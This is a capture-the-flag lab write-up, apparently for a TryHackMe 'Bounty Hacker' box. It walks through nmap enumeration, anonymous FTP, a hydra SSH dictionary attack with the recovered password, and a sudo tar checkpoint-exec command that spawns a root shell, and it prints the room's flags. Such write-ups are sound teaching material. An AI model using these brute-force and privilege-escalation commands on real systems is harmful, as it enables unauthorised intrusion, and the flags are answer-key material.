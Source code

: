 ### IP
`10.10.207.236`

# Enumeration

### nmap
`nmap -sC -sV 10.10.207.236 -o BountyHacker.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-13 23:53 EST
Nmap scan report for 10.10.207.236
Host is up (0.17s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.36.105
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.46 seconds
```
* Easy stuff first... Let's take a look at the website at port 80
	* Looks like its just a text page. I'll run nikto on it just in case.
* What's more interesting is ftp, because anonymous login is allows
	* Let's try that:

# Exploitation

### ftp login
`ftp 10.10.207.236 21`
* Type in `anonymous` for the username and press enter for the password
* Let's see whats on this thing... `ls`
```
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 20:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 20:47 task.txt
226 Directory send OK.
```
* We can download those by typing `get locks.txt` and `get task.txt`


* `locks.txt` :
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
* Now what could we do with this? 
	* Perhaps its a list for something relating to the ssh client?


* `task.txt` :
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
* Okay... It looks like `lin` wrote the task


### ssh
* Now, we need to figure out how to login to this
* We can reasonably guess that the ssh username is `lin`
	* Maybe locks.txt is a possible list of passwords?

* Let's use hydra to run a dictionary attack:
* `hydra -l "lin" -P locks.txt ssh://10.10.207.236 -t 4`
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-14 00:07:57
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.207.236:22/
[22][ssh] host: 10.10.207.236   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-14 00:08:07
```
* Success! Looks like the password is `RedDr4gonSynd1cat3`

* Let's log in now: `ssh lin@10.10.207.236 -p 22`
	* Input the password when asked: `RedDr4gonSynd1cat3`

* When we `ls` we see a `users.txt` file.
* Catting it gives us `THM{CR1M3_SyNd1C4T3}`

* Now we need to get access to root
* I tried `sudo cd /root/` with the same password as lin, but with no success

### privelege escalation

* Let's do some quick recon on the system we're on:
* `cat /etc/os-release`
```
NAME="Ubuntu"
VERSION="16.04.6 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.6 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

* `cat /proc/version`
```
Linux version 4.15.0-101-generic (buildd@lgw01-amd64-052) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.12)) #102~16.04.1-Ubuntu SMP Mon May 11 11:38:16 UTC 2020
```

* Let's look online to see if xenial 16.04 has any privesc vulns
* `searchsploit openssh` returns some results
* One interesting one is `linux/local/40962.txt`
	* Let's view the file...

```
...
sing "ssh -L", an attacker who is permitted to log in as a
normal user over SSH can effectively connect to non-abstract unix domain sockets
with root privileges
...
Proof of Concept:
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/40962.zip

```

* Very interesting... Let's download the exploit and try to run it

* Imma be honest.. loads of stuff happened here with no success
* A typical Linux privilege Escalation method is based on checking one of the following: (Quote from [this](https://github.com/Bengman/CTF-writeups/blob/master/Hackthebox/dev0ops.md) writeup)
```
1. Exploiting services running as root
2. Exploiting SUID executables
3. Exploiting SUDO rights/user
4. Exploiting badly configured cron jobs
5. Exploiting users with "." in their path
6. Kernel Exploits
```
* I eventually had some success with exploting sudo rights:
* `sudo -l` with `lin`'s password shows which commands each of the users can execute with sudo
	* turns out lin can execute tar as sudo... we can exploit that
* I looked up `linux tar privesc` and found [this](https://gtfobins.github.io/gtfobins/tar/)
* It says the following command lets us "spawn an interactive system shell"
```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
* running this as sudo and typing in `lin`'s password gives us a root shell
* `ls /root/` shows us a file called `root.txt`
* `cat /root/root.txt` gives us the root flag: `THM{80UN7Y_h4cK3r}`


